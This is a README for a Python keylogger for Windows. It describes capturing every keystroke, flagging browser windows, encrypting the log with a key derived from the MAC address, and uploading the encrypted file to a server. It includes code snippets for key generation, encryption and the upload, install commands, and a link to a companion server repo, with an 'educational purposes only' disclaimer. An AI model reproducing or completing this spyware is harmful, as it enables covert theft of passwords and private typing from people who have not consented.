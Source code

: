 # Keylogger Python Script

This Python script demonstrates a keylogger that captures keystrokes on a Windows machine. The script uses the `pynput` library for listening to keyboard events and `cryptography` to encrypt the captured keystrokes. It is intended for educational purposes only and should not be used for illegal activities.

## Features:
- Captures all keypress events.
- Logs keystrokes to a file.
- Automatically flushes the buffer every 5 seconds or 100 characters.
- Encrypts the log file using `cryptography.fernet` encryption.
- Uploads the encrypted file to a server (optional).

## Prerequisites:
- Python 3.x
- Required libraries:
  - `cryptography`
  - `pynput`
  - `requests`
  - `pywin32` (for Windows API interaction)
  
You can install the required libraries using pip:

```bash
pip install cryptography pynput requests pywin32
```
## How it Works:
  - Key Generation: The script generates a unique key based on the machine's MAC address to encrypt and decrypt the log file.
  - Keylogger: Captures all keystrokes and identifies special keys like Enter, Space, and Backspace.
  - Browser Detection: Checks if the active window is a browser (Chrome, Firefox, Edge, Opera) to make browser-specific corrections in the logs.
  - Buffer Management: Keystrokes are stored in a buffer and flushed to a log file periodically or when the buffer reaches 100 characters.
  - Encryption: The log file is encrypted using the Fernet symmetric encryption method.
  - File Upload: Optionally, after encryption, the log file can be uploaded to a server.

## Code Walkthrough:

Key Generation
The machine key is generated using the MAC address, which is then base64-encoded for encryption purposes.

```bash
def generate_machine_key():
    mac_address = uuid.getnode()
    mac_str = str(mac_address).encode()
    padded = mac_str.ljust(32, b' ')
    return urlsafe_b64encode(padded)
```
## Keystroke Handling
- The handle_keypress function processes keypress events, distinguishing between regular keys and special keys (e.g., Enter, Backspace). The keystrokes are stored in a buffer.

## Encryption
- The captured keystrokes are written to a log file, which is later encrypted using the cryptography.fernet module.
```bash
def encrypt_file(filename, cipher):
    try:
        with open(filename, "rb") as f:
            data = f.read()
        encrypted = cipher.encrypt(data)
        with open(f"{filename}.encrypted", "wb") as f:
            f.write(encrypted)
        os.remove(filename)
        print(f"File encrypted: {filename}.encrypted")
    except Exception as e:
        print(f"Encryption error: {e}")
```
## Uploading the Encrypted File
After encryption, the log file can be uploaded to a server. In this case, it uses a mock URL (http://localhost:3000/upload), but this can be replaced with an actual upload server.

```bash 
def upload_file(filename):
    try:
        with open(filename, "rb") as f:
            requests.post("http://localhost:3000/upload", files={"file": f})
        print("Upload successful")
    except Exception as e:
        print(f"Upload failed: {e}")
```
## Running the Script
- To start the keylogger, simply run the script. It will start listening for keypress events, log them, and encrypt the log when you press the ESC key.

```bash
python keylogger.py
```
- Press ESC to stop the keylogger. After stopping, the log file is encrypted and can be uploaded if desired.

Disclaimer:
This script is for educational purposes only. Using this script for malicious purposes, such as capturing someone's keystrokes without their consent, is illegal and unethical. Ensure you have proper authorization before using this script.

## This repo also include the encryption and decryption tools that used . you can find documntion for those as following 
   - Server : https://github.com/ukihunter/Simple-server





